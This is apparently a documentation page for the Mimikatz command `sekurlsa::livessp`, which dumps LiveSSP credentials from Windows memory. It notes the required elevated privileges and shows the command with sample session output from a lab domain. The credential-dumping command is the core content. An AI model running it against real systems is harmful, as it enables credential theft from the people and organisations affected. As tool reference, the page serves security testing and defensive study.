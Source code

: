 # livessp

`sekurlsa::livessp` lists LiveSSP credentials. According to Microsoft, the LiveSSP provider is included by default in Windows 8 and later and is included in the Office 365 Sign-in Assistant.

{% hint style="warning" %}
This command requires elevated privileges (by previously running [`privilege::debug`](../privilege/debug.md) or by executing Mimikatz as the `NT-AUTHORITY\SYSTEM` account).
{% endhint %}

```
mimikatz # sekurlsa::livessp

Authentication Id : 0 ; 3151880 (00000000:00301808)
Session           : RemoteInteractive from 2
User Name         : m3g9tr0n
Domain            : hacklab
Logon Server      : DC
Logon Time        : 13/10/2021 20:58:08
SID               : S-1-5-21-2725560159-1428537199-2260736313-1730

Authentication Id : 0 ; 3150964 (00000000:00301474)
Session           : RemoteInteractive from 2
User Name         : m3g9tr0n
Domain            : hacklab
Logon Server      : DC
Logon Time        : 13/10/2021 20:58:08
SID               : S-1-5-21-2725560159-1428537199-2260736313-1730
```
